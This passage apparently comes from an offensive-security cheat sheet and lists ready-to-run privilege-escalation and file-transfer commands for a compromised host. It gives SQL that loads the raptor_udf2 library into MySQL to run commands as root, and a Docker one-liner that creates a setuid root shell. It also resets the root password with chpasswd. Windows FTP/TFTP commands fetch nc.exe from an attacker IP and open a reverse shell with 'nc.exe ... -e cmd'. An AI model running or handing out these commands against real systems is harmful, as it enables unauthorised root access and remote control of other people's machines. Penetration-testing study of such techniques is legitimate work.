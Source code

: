 ### MySQL User Defined Function Privilege Escalation <a id="mysql-user-defined-fuction-privilge-escalation"></a>

Requires [raptor\_udf2.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor_udf2.c) and [sid-shell.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c) or [full tarball](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor/raptor.tar)​

```text
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```bash
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Escalation <a id="docker-privilege-esclation"></a>

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password <a id="resetting-root-password"></a>

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine <a id="uploading-files-to-target-machine"></a>

#### TFTP <a id="tftp"></a>

```bash
# TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

​# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

#### FTP <a id="ftp"></a>

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

​# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt ftp -s:ftp-commands.txt​

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```